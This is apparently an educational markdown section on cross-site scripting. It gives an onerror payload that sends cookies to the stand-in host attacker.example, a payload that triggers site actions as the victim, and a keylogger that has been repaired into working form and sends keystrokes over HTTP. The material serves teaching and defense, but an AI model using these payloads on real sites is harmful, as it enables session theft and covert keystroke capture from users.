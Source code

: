 ## Realistic attack examples (fixed & explained)

> **Note:** the following code **must never** be used on live systems. These examples are for learning/defense only.

### 1) Reflected / URL-based example (image `onerror`)
A vulnerable page that echoes `?name=` into HTML without sanitization can allow this:

```
?name=<img src="x" onerror="new Image().src='http://attacker.example/steal?c='+encodeURIComponent(document.cookie)">
```

**What this does:** the `onerror` handler runs when the `img` fails to load and sends a GET request to the attacker's server with `document.cookie` appended. If the site relies on cookies for auth and they are not `HttpOnly`, the attacker can steal them.

**What could go wrong:** attacker can hijack the session (log in as the user), view or modify account data, or continue living‑session attacks.

---

### 2) Triggering site functions (CSRF-like behaviour)
If the site exposes global JS functions (e.g. `window.createPost`) that perform actions on behalf of the current user, an XSS payload can call them:

Vulnerable URL payload (illustrative):
```
?name=<img src=x onerror="window.createPost('Hacked title','Hacked body')">
```

**Why dangerous:** the victim, while authenticated, will execute `createPost` and post content without consent. This demonstrates why allowing arbitrary script execution is dangerous.

---

### 3) Keylogger (fixed example)
Broken/typo-ridden sample — **corrected** and improved below:

```javascript
// Keylogger example (educational only)
(function () {
  var timeout;
  var buffer = '';
  document.querySelector('body').addEventListener('keypress', function(event) {
    if (!event) return;
    clearTimeout(timeout);
    var char = String.fromCharCode(event.which || event.keyCode);
    buffer += char;
    timeout = setTimeout(function() {
      var xhr = new XMLHttpRequest();
      var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
      xhr.open('GET', uri);
      xhr.send();
      buffer = '';
    }, 400);
  });
})();
```
